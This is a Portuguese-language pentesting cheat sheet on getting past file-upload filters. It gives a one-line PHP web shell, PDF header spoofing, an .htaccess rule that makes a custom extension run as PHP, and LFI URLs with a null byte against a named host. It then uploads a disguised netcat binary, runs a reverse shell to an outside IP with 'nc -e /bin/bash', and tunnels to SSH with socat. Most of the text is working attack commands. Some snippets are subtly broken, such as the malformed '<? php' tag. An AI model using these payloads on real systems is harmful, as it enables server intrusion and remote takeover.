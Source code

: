 # Bypass File Upload

Crie um arquivo shell.php:

```php
<?php system($_GET['cmd']); ?>
```

Envie em algum formulário o arquivo malicioso.
Caso o arquivo seja barrado na extensão, tente alterar a extensão do arquivo e teste novamente.

Caso a aplicação faça a verificação via cabeçalho do arquivo será necessário efetuar algumas alterações no arquivo PHP.

Código de verificação de arquivo simples:

```php
<? php
echo mime_content_type('arquivo.php') . "\n";
?>
```

```bash
php arquivo.php
```

Verificando o header do arquivo:
head -n1 arquivo.pdf
Output: %PDF-1.3

Alterando header da shell.php:

```php
%PDF-1.3
<? php
echo mime_content_type('arquivo.php') . "\n";
?>
```

Tente subir o código maliciosa para a aplicação novamente e use o LFI/RFI:

```url
rh.businesscorp.com.br/index.php?page=uploads/shell.pdf%00&cmd=uname -a
```

Em alguns casos o código enviado para o site não é interpretado como PHP e ao acessar aparece o seu conteúdo e não executa. Nesse caso devemos criar um arquivo .htaccess:

```pcre
AddType application/x-httpd-php .sec
```

*Acima estamos falando que arquivos com extensão **.sec** devem ser interpretadas como PHP.*

Faça o upload do arquivo .htaccess para a aplicação e tente executar novamente o seu command execution.

## Fazendo Upload do NC

Criando arquivo nc com bypass:

```bash
echo "%PDF-1.3" > header.pdf
```

```bash
cat header /bin/nc > nc.pdf
```

Envie o arquivo via formulário vulnerável.

Utilizando o NC:

```url
rh.businesscorp.com.br/index.php?page=uploads/shell.pdf%00&cmd=tail -n +2 uploads/nc.pdf > nc  
rh.businesscorp.com.br/index.php?page=uploads/shell.pdf%00&cmd=chmod 777 nc  
rh.businesscorp.com.br/index.php?page=uploads/shell.pdf%00&cmd=nc 192.168.0.101 443 -e /bin/bash
```

## Utilizando SOCAT

O SOCAT é utilizado para efetuar o tunelamento de portas filtradas.

### Uso no servidor

```bash
socat TCP4:NOSSOIP:8443 TCP4:127.0.0.1:22
```

### Uso local

```bash
socat TCP4-LISTEN:8443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr
```

### Acessando o tunelamento

```bash
ssh root@127.0.0.1 -p 2222
```

Ou seja, o caminho está sendo feito da seguinte forma:  
127.0.0.1:2222 ==> 127.0.0.1:8443 <==> 192.168.0.100:8443 ==> 192.168.0.100:22  
**Onde o IP 192.168.0.100 é o alvo.**
